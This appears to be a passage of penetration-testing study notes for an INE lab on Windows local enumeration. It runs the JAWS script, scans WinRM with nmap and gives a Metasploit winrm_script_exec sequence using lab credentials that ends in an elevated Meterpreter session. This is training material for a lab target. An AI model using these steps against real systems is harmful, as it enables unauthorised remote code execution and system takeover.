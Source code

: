 ```bash

[...]
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - Credentials: `administrator`:`tinkerbell`
> - Automation Tools:
>   - [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
>   - Metasploit Framework

**`JAWS`** - PowerShell 2.0 script designed to help penetration testers quickly *identify potential privilege escalation vectors on Windows systems.*

```powershell
PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

### Enumeration & Exploitation

```bash
# Target WinRM
nmap -sV -p 5985 10.2.17.152
	5985/tcp open  http  Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

```bash
service postgresql start && msfconsole -q
search winrm
use exploit/windows/winrm/winrm_script_exec
setg RHOSTS 10.2.17.152
setg RHOST 10.2.17.152
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
run
```

![Elevated Meterpreter session](.gitbook/assets/image-20230427195211889.png)
